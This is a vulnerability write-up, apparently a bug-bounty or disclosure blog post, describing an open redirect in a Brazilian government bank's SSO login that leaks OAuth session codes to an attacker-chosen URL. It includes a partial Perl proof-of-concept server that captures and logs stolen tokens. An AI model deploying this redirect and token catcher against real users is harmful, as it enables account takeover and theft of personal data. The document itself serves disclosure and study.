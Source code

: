 -

This page is the authentication screen for access to the citizen portal panel and this caught my eye.

I took a closer look at the URL structure of the page in question to understand a little more about the system, to my surprise there was a parameter that could probably lead me to find a vulnerability.

The URL in question was as follows:

[**https://acessoseguro.sso.caixa.gov.br/cidadao/auth?response_type=code&client_id=portal-inter&segmento=CIDADAO01&template=portal&redirect_uri=https://acessoseguro.sso.caixa.gov.br/portal/login**](https://acessoseguro.sso.caixa.gov.br/cidadao/auth?response_type=code&client_id=portal-inter&segmento=CIDADAO01&template=portal&redirect_uri=https://acessoseguro.sso.caixa.gov.br/portal/login)


The last parameter of the URL was what drew attention to the potential vulnerability: **&redirect_uri=**

The value entered in the parameter references to which URL the user will be redirected to when the user finishes the activity in question, which in this case is the login.

In order to validate this theory, I changed the value of the **&redirect_uri=** parameter in the original URL to the Google homepage address, filled in my credentials, logged in, and the result was as follows:

<iframe width="700" height="612" src="https://www.youtube.com/embed/d6EXPMQPcZw" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture"></iframe>

-

Well, here we have the Open Redirect vulnerability. To my surprise, however, I was not just redirected to the page, and during the redirect another parameter was sent. We can see this at the URL:

[**https://google.com/?code=e629bd01-00cd-4b67-8f5d-f7fc50c2a9c7**](https://google.com/?code=e629bd01-00cd-4b67-8f5d-f7fc50c2a9c7)

This content in the **“?code=”** parameter aroused my curiosity. Understanding a little more of the original request, I was able to conclude that the value of this parameter is a Session Token.

As I understood this, it became apparent that this vulnerability was even more critical than it appeared, as the user could be redirected to a malicious URL where I had full control over it and capture the Session Token. Doing so could access that user's account, thereby violating the confidentiality of their data and the integrity of it.

---

### Proof Of Concept

Determined to create a PoC from this theory, I wrote the following code:

```perl
#!/usr/bin/env perl
# Use: perl catcher.pl daemon -m production -l http://*:80

use 5.018;
use strict;
use warnings;
use Mojolicious::Lite -signatures;

get "/" => sub ($catcher) {
	$catcher -> res -> headers -> header("Access-Control-Allow-Origin" => "*");
	
	my $code = $catcher -> param("code");
	
	open (my $logs, ">>", "catcher.logs");
	print $logs "[+] - New Session Token -> '$code' has been catch.\n";
	close ($logs);

	return ($catcher -> render (
```